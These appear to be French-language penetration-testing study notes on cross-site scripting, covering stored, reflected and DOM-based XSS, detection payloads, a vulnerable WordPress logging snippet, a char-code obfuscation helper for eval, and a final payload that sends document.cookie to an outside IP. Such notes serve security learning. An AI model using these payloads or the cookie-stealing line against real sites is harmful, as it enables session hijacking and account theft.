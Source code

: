 Code exécuté sur une page chargé par un autre utilisateur. Causé par une mauvaise gestion des charactères spéciaux

# Stored (Persistent)
Le contenu malicieu est placé sur le serveur pour être retourné plus tard à un utilisateur. Ex: post ou commentaire.
# Reflected (non-persistent)
Le contenu se trouve dans la requête ou le lien. Ex: Résultat de recherche ou message d'erreur
# DOM-based XSS (Non-persistent)
N'atteint jamais le serveur. Affiché dans le navigateur et processé du côté client. Ne charge pas une nouvelle page mais modifie la page courrante (DOM). Ex: paramètre HTTP côté client ou tag d'encrage.
Source: objet JS qui prend entrées utilisateur (param URL ou champ)
Sink: Fonction qui écrit l'entrée vers un DOM
* document.write()
* DOM.innerHTML
* DOM.outerHTML
* add()
* after()
* append()
Regarder le code JS, si les entrées ne sont pas vérifié

# Détection
Indice: si on peut voir un résultat d'une de nos entrées	
Vérifier que les charactères spéciaux sont supportés:

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
< > ' " { } ;
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~js
<script>alert(42)</script>
<script>alert(window.origin)</script>
<script>print()</script>
#Transorme le code le suivant en texte
<plaintext>
<script>alert(document.cookie)</script>
<img src="" onerror=alert(window.origin)>
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/XSS%20Injection/README.md
https://github.com/payloadbox/xss-payload-list

On peut ensuite voir notre dans le code source de la page.

# Example de code vulnérable
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~js
function VST_save_record() {
	global $wpdb;
	$table_name = $wpdb->prefix . 'VST_registros';

	VST_create_table_records();

	return $wpdb->insert(
		$table_name,
		array(
			'patch' => $_SERVER["REQUEST_URI"],
			'datetime' => current_time( 'mysql' ),
			'useragent' => $_SERVER['HTTP_USER_AGENT'],
			'ip' => $_SERVER['HTTP_X_FORWARDED_FOR']
		)
	);
}
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

useragent inclue directement le contenu de l'en-tête

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~html
<td>'.$record->useragent.'</td>
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
Exécuter du code en HTML
1.  minifier le code (https://jscompress.com/ )
2.  encoder 
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~js
function encode_to_javascript(string) {
            var input = string
            var output = '';
            for(pos = 0; pos < input.length; pos++) {
                output += input.charCodeAt(pos);
                if(pos != (input.length - 1)) {
                    output += ",";
                }
            }
            return output;
        }
        
let encoded = encode_to_javascript('insert_minified_javascript')
console.log(encoded)
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~



*eval()* exécute du code javascript en string

```js
<script>eval(String.fromCharCode(118,97,...,59))</script>
```

# Voler des cookies
```js
<img src=x onerror=this.src='[http://10.10.14.115:8000/'+btoa(document.cookie)>
```